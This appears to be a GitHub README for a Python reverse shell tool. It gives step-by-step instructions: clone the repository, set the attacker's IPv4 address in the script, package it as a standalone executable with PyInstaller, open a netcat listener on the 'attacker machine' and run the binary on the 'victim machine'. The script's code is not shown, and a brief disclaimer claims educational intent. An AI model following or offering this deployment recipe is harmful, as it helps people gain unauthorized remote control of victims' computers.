 # ReverseShell | Written In <a href="https://www.python.org/"><img src="https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54" alt="Python Badge"/></a>
- A python3 reverseshell.

![revsh](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/backd_profile.jpeg)

## How to use this reverseshell?:snake:

- 1 ) Clone the repo:
```
git clone https://github.com/Keyj33k/ReverseShell.git
```
- 2 ) Now you need to navigate to the ReverseShell directory.
```
cd ReverseShell
```
- You will find a file called >> reverseshell.py:

### You need to change the ipv4 address in the script:
---
![exa](https://github.com/Keyj33k/profiles/blob/main/profile/revshell.png?raw=true)
---
- 3 ) This Reverse Shell needs requirements you need to install:
```
pip install -r requirements.txt
```
- 4 ) Build an executable using this command:
```
pyinstaller --onefile reverseshell.py
```
- PyInstaller command not found?
```
pip install pyinstaller
```
### If the steps above are done:

- On the attacker machine:
```
nc -lnvp 5003
```
- NC command not found (Debian/-based)?
```
sudo apt-get install -y netcat
```

- On the victim machine:
```
./reverseshell
```
# Explained:

![listener](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/reverseshell.jpeg)

Note:
- This tool is for educational and ethical purposes only. 
- I'm not responsible for your actions. 
- Don't hack anyone without their permissions.
- With great force follows great responsibility.

---
![pypy](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/pypy.jpeg)
---
---
  
- Tested on 5.17.0-kali3-amd64, 5.15.0-40-generic-Ubuntu
  
---


